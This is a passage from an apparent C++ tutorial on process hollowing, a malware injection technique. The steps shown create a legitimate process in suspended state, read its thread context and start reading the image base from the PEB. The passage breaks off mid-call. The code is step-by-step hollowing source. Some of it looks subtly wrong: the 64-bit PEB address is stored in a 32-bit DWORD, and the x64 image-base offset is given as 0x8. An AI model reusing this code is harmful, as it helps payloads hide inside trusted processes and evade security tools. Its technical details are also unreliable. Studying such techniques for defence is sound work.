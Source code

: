 Where we will get the Entrypoint and Imagebase, necessary for the execution of the file

## 3. Create process and start it in suspended state

``` cpp
    STARTUPINFOA startupInfo;                  // We will store the StartupInfo of the process
    PROCESS_INFORMATION processInfo;           // We will store the ProcessInformation of the process
```

The STARTUPINFOA and PROCESS_INFORMATION structures are initialized by filling them with zeros using [ZeroMemory](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366920(v=vs.85))
``` cpp
    ZeroMemory(&startupInfo, sizeof(startupInfo));   
    ZeroMemory(&processInfo, sizeof(processInfo));
    startupInfo.cb = sizeof(startupInfo);
```

We use [CreateProcessA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) to start our process in SUSPENDED state

It is necessary that we run the process in suspended state, this means that the process starts but does not execute code

``` cpp
    if (!CreateProcessA(
        targetProcess.c_str(),    // Name of the process to create
        NULL,                      // Command line parameters
        NULL,                      // Process security attributes
        NULL,                      // Thread security attributes
        FALSE,                     // Handle inheritance
        CREATE_SUSPENDED,          // Creation flags - SUSPENDED
        NULL,                      // Process environment
        NULL,                      // Current directory
        &startupInfo,              // Startup information
        &processInfo               // Process information
    )) {
        ErrorExit("Could not create legitimate process");
    }

```

## 4. Get information about the created process

We access the main thread context using [GetThreadContext](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getthreadcontext).

Using [ReadProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-readprocessmemory), we read the process base address from the PEB (offset +8).

``` cpp
    CONTEXT context;
    context.ContextFlags = CONTEXT_FULL;

    if (!GetThreadContext(processInfo.hThread, &context)) {
        ErrorExit("Could not get thread context");
    }
    // In x64, the Rbx register points to the PEB, if it were x86 we would use Ebx
    DWORD pebAddress = context.Rbx;

    // The process base address is at offset 0x8 of the PEB
    LPVOID imageBaseAddress = 0;
    SIZE_T bytesRead2 = 0;

    if (!ReadProcessMemory(
        processInfo.hProcess,
```